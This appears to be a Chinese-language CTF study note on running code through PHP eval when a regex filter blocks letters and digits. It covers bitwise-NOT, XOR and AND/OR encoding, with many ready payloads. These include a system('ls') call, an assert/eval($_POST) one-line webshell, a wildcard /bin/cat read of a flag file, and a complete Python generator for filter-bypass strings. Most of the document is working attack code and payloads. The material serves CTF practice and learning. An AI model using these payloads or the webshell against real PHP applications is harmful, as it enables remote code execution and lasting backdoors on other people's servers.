

<https://www.cnblogs.com/Dreamerwd/p/15421284.html>

对于字符，字母，数字大小写都waf的，使用不可打印字符绕过。
```
preg_match('/^\W+$/', $v3)
等价
preg_match("[^A-Za-z0-9_]",$code)
没有过滤% ^ ~ - & | （" 等
```


## **url编码取反**
们将php代码url编码后取反，我们传入参数后服务端进行url解码，这时由于有取反，url解码成不可打印字符，这样我们就会绕过。
```
echo "\n".urlencode(~'phpinfo');  //%8F%97%8F%96%91%99%90

url解码后会变成不可打印字符乱码，绕过正则，在~取反回来

?code=(~%8F%97%8F%96%91%99%90)();
?code=phpinfo();
```
```
<?php
echo urlencode(~'system');
echo "\n".urlencode(~'ls');
?>

eval("return $v1$v3$v2;");

?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%93%8C)-
php里数字可以和命令可以进行运算。如* - + |等
eval("1-(system)(ls)-1") 执行命令

```

## **异或绕过**
<https://blog.csdn.net/soldi_er/article/details/120052124>
<https://blog.csdn.net/weixin_40871137/article/details/107591065>
<https://blog.csdn.net/mochu7777777/article/details/104631142>
将两个字符的asci转化为二进制进行异或取值从而得到新的二进制转化为新的字符
```
phpinfo
使用异或工具
"%80%80%80%80%80%80%80"^"%f0%e8%f0%e9%ee%e6%ef"

?code=(%22%80%80%80%80%80%80%80%22^%22%f0%e8%f0%e9%ee%e6%ef%22)();
?code=phpinfo();
```

## **CTF题**
```
$code=$_GET['code'];
        if(strlen($code)>40){
                            die("This is too Long.");
                                    }
        if(preg_match("/[A-Za-z0-9]+/",$code)){
                            die("NO.");
                                    }
        @eval($code);
```
传入一句话木马
```
<?php 
error_reporting(0);
echo "外：";
$a='assert';
$b=urlencode(~$a);
echo $b;

echo "里：";
$c='(eval($_POST[test]))';
$d=urlencode(~$c);
echo $d;
 ?>
```
```
外：%9E%8C%8C%9A%8D%8B里：%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%8B%9A%8C%8B%A2%D6%D6

?code=assert(eval($_POST[test]));

?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%8B%9A%8C%8B%A2%D6%D6);
```


^
^
## **无字符RCE，不可打印绕过**
```
$hhh = @$_GET['_'];

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

eval($hhh);
```
绕过
```
?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=phpinfo
phpinfo为执行的代码。
```

^
## **绕过生成综合脚本**
```
from typing import final

import string


def realHex(num):

    if num <16:

        return "%0"+hex(num)[2:]

    else:

        return '%'+hex(num)[2:]

pattern=input("请输入正则过滤式,没有则直接回车跳过\n")

#正则表达式修饰符re.I大小写不敏感,re.M多行匹配,影响^和$,re.S使得.匹配包括换行在内的所有字符,re.U根据Unicode字符集解析字符,影响\w,\W,\b,\B

#建议回车跳过,这个功能很逊

if pattern != "":

    import re

    blacklist=["`","'",'"',"\\"]

    for i in range(32,255):

        if  re.search(pattern,chr(i),re.I):

            blacklist.append(chr(i))

else:

    #blacklist列表中的字符在生成的拼接字符串中不会被使用,除了部分是被过滤掉的字符，其余的如',"等字符考虑可能会导致闭合等问题暂列入

    #如果有其他的要求可以对blacklist列表进行删改

    #!注意对于|和&来说拼凑字符是相当困难的,并且可用范围实际上是31-255,这就导致了要这样用必须引号包裹,否则大概率GG

    #比如{,},;,|,&,$等诸多符号不带引号会导致无法使用

    blacklist=[]

    for word in string.ascii_letters+string.digits:

        blacklist.append(word)

    blacklist+=[" ","^","~","|","'",'"',"\\"]

#print(blacklist)

#不同于取反,一个目标字符串使用异或的方式可以获大量的可用拼接字符串,这里只取了1种组合的拼接字符串

#如果需要获得更多拼接字符串查看该函数中的result列表


def yiHuo(string):

    global operationEffient

    global blacklist

    operationEffient=False

    result=[]

    finalstr='""^""'

    rawstr=string

    for i in range(0,len(rawstr)):

        result.extend([[]])

    for k in range(0,len(rawstr)):

        #这里更换范围

        for i in range(1,255):

           if(chr(i) not in blacklist):

               #这里更换范围

                for j in range(1,255):

                    if(chr(j) not in blacklist):

                        if(i^j==ord(rawstr[k]) and [hex(j).replace('0x',"%"),hex(i).replace('0x',"%")] not in result[k]):

                            result[k].extend([[realHex(i),realHex(j)]])

    #在这里往下的函数部分,result列表均是可用的(已填充了获得的拼接字符串)

    for i in range(0,len(result)):

        if(len(result[i])==0):

            return("该字符在现有黑名单和字符范围下无法拼接出->%s"%(rawstr[i]))

    for i in range(0,len(rawstr)):

        finalstr=finalstr[:finalstr.find("^",0)-1]+result[i][0][0]+'"'+finalstr[finalstr.find("^",0):]

        finalstr=finalstr[:finalstr.rfind("'",0)]+result[i][0][1]+finalstr[finalstr.rfind('"',0):]

    return finalstr

def quFan(string):

    global operationEffient

    global blacklist

    operationEffient=False

    result=[]

    finalstr='~""'

    rawstr=string

    for i in range(0,len(rawstr)):

        result.extend([[]])

    for k in range(0,len(rawstr)):

        #这里更换范围

        for i in range(1,255):

           if(chr(i) not in blacklist and chr(int(bin(~i & 0xFF)[2:],2))==rawstr[k]):

               result[k].extend([realHex(i)])

    #print(result)

    for i in range(0,len(result)):

        if(len(result[i])==0):

            return("该字符在现有黑名单和字符范围下无法拼接出->%s"%(rawstr[i]))

    for i in range(0,len(rawstr)):

        finalstr=finalstr[:finalstr.rfind('"',0)]+result[i][0]+finalstr[finalstr.rfind('"',0):]

    return finalstr

def rce_and(string):

    global operationEffient

    global blacklist

    operationEffient=False

    rawstring=string

    result=[]

    finalstr=""

    for i in range(0,len(rawstring)):

        result.extend([[]])

    for l in range(0,len(rawstring)):

        for i in range(1,255):

            for j in range(1,255):

                if (chr(j) in blacklist) or (chr(i) in blacklist):

                    continue

                if chr(i&j)==rawstring[l]:

                    #注意&在URL特殊含义,故需要URL编码

                    result[l].append("\""+realHex(i)+"\"%26\""+realHex(j)+"\"")

                    continue

    for i in range(0,len(result)):

        if(len(result[i])==0):

            print("该字符在现有黑名单和字符范围下无法拼接出->%s"%(rawstring[i]))

            return

    for i in range(0,len(result)):

        if i == 0:

            finalstr+="({})".format(result[i][0])

        else:

            finalstr+=".({})".format(result[i][0])

    return finalstr

def rce_or(string):

    global operationEffient

    global blacklist

    operationEffient=False

    rawstring=string

    result=[]

    finalstr=""

    for i in range(0,len(rawstring)):

        result.extend([[]])

    for l in range(0,len(rawstring)):

        for i in range(1,255):

            for j in range(1,255):

                if (chr(j) in blacklist) or (chr(i) in blacklist):

                    continue

                if chr(i|j)==rawstring[l]:

                    result[l].append("\""+realHex(i)+"\"|\""+realHex(j)+"\"")

                    continue

    for i in range(0,len(result)):

        if(len(result[i])==0):

            print("该字符在现有黑名单和字符范围下无法拼接出->%s"%(rawstring[i]))

            return

    for i in range(0,len(result)):

        if i == 0:

            finalstr+="({})".format(result[i][0])

        else:

            finalstr+=".({})".format(result[i][0])

    return finalstr

while(True):

    operationEffient=True

    target=input("请输入待转换字符\n")

    while(operationEffient):

        operation=input("请选择操作\n0->重新输入\n1->使用异或拼接\n2->使用取反获得\n3->使用二进制和\n4->使用二进制或\n")

        if(operation=="1"):

            result=yiHuo(target)

            pass

        elif(operation=="2"):

            result=quFan(target)

            pass

        elif(operation=='3'):

            result=rce_and(target)

            pass

        elif(operation=='4'):

            result=rce_or(target)

            pass

        elif(operation=="0"):

            break

        else:

            print("选择的操作无效")

            continue

        if result!='':

            print(result)
```

^
## **限制长度**


**第1道题目如下** ：


这道题目实际上是考察不包含字母数字的webshell利用，大家可以参考 **phithon** 师傅的文章：[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html) ，我们只需要构造并调用 **getFlag** 函数即可获得flag。排除这里正则的限制，正常的想法payload应该类似这样（把上图代码中的正则匹配注释掉进行测试）：

```
index.php?code=getFlag();
index.php?code=$_GET[_]();&_=getFlag
```


我们现在再来考虑考虑如何绕过这里的正则。游戏规则很简单，要求我们传入的 **code** 参数不能存在字母及数字，这就很容易想到 **phithon** 师傅的 [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html) 一文。通过异或 **^** 运算、取反 **\~** 运算，构造出我们想要的字符就行。这里我们直接看 **payload** ：

```
?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
```

我们来拆解分析一下 **payload** ，**eval** 函数会执行如下字符串：

```
$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
拆解如下：        第1个GET请求参数：code                &     第2个GET请求参数：_
   $_="`{{{"^"?<>/";         ${$_}[_](${$_}[__]);     &     _=getFlag
   $_="_GET";                $_GET[_]($_GET[__]);     &     _=getFlag
                             getFlag($_GET[__]);
                             getFlag(null);
```

这个 **payload** 的长度是 **37** ，符合题目要求的 **小于等于40** 。另外，我 **fuzz** 出了长度为 **28** 的 **payload** ，如下：

```
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```


这里也给出 **fuzz** 脚本，方便大家进行 **fuzz** 测试：

```
<?php
$a = str_split('getFlag');
for($i = 0; $i < 256; $i++){
    $ch = '{'^ chr($i);
    if (in_array($ch, $a , true)) {
        echo "{ ^ chr(".$i.") = $ch<br>";
    }
}
echo "{{{{{{{"^chr(28).chr(30).chr(15).chr(61).chr(23).chr(26).chr(28);
​
?>
```


后来在安全客看到一种新的思路，也很不错，具体参考：[CTF题目思考--极限利用](https://www.anquanke.com/post/id/154284) 。这篇文章主要是 **利用通配符调用Linux系统命令** 来查看 **flag** ，关于通配符调用命令的文章，大家可以参考： [web应用防火墙逃逸技术（一）](https://www.anquanke.com/post/id/145518) 。

我们来分析安全客这篇文章中的payload：

```
$_=`/???/??? /????`;?><?=$_?>
实际上等价于：
$_=`/bin/cat /FLAG`;?><?=$_?>
```

这里我想说一下 **\<?=$\_?>** 这个代码的意思。实际上这串代码等价于 **\<? echo $\_?>** 。实际上，当 **php.ini** 中的 **short\_open\_tag** 开启的时候， **\<? ?>** 短标签就相当于 **\<?php ?>** ， **\<?=$\_?>** 也等价于 **\<? echo $\_?>** ，这也就解决了输出结果的问题。下面我们再来看第二道题目。

**第2道题目如下** ：


这道题目实际上和上面那道题目差不多，只是过滤了一个下划线 **\_** 而已，我们可以用中文来做变量名：

```
$哼="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$哼();
```


当然，我们也可以 **fuzz** 可用的 **ASCII** 做变量名，**fuzz** 代码如下：

```
import requests
for i in range(0,256):
    asc = "%%%02x" % i
    url = 'http://localhost/demo/index2.php?code=$%s="{{{{{{{"^"%%1c%%1e%%0f%%3d%%17%%1a%%1c";$%s();' % (asc,asc)
    r = requests.get(url)
    if 'HRCTF' in r.text:
        print("%s 可用" %asc)
```


可以看到此时 **payload** 长度为 **28** 。当然还有其他 **payload** ，例如下面这样的，原理都差不多，大家自行理解。

```
$呵="`{{{"^"?<>/";${$呵}[呵](${$呵}[呵]);&呵=getFlag
```

